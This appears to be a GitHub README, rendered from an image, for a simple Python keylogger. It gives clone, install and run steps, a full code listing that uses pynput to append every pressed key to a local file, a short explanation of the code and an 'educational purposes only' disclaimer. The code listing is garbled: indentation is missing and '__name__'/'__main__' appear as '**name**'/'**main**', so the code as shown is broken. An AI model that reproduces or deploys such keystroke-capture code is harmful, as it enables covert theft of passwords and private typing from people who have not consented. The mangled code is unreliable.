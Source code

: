 # Keylogger

![Alt text](/img/keylogger.svg)

This project is a simple keylogger implemented in Python using the `pynput` library. It listens for keyboard events and logs the keys pressed to a file.

## Requirements

To run this keylogger script, you need to have the following software and libraries installed on your machine:

### 1. Python

- **Python 3.x**: This script is written in Python and requires Python 3.x to run. You can download the latest version of Python from the [official website](https://www.python.org/downloads/).

To check if Python is installed on your machine and to verify the version, you can run the following command in your terminal or command prompt:

python --version

## Installation

**Clone the repository or download the script.**

```bash
git clone https://github.com/Monisha02045/keylogger.git
cd keylogger
```

## install the pynput library.

You can install the required library using pip:

```bash
pip install pynput
```

### Run the keylogger script

```bash
python keylogger.py
```

## Log file.

The script creates/appends to a file named keyfile.text in the same directory, where all key presses are logged.

# code Explanation

from pynput import keyboard

```python
def keyPressed(key):
print(str(key))
with open("keyfile.text", 'a') as logkey:
try:
char = key.char
logkey.write(char)
except:
print("error getting char")

if **name** == "**main**":
listener = keyboard.Listener(on_press=keyPressed)
listener.start()
input()
```

## Importing the library:

from pynput import keyboard

# Defining the key press handler:

The `keyPressed `function is called every time a key is pressed. It attempts to write the character of the key to `keyfile.text`. If the key doesn't have a character representation (e.g., special keys like Ctrl or Alt), it catches the exception and prints an error message.

# Setting up the listener:

if **name** == "**main**":
listener = keyboard.Listener(on_press=keyPressed)
listener.start()
input()

This block checks if the script is being run directly (not imported as a module). It creates a `keyboard.Listener` object that listens for key presses and starts it. The `input()` function keeps the program running.

# Disclaimer

This keylogger is for educational purposes only. Unauthorized use of a keylogger can be illegal and unethical. Ensure you have explicit permission to use this tool on any device.
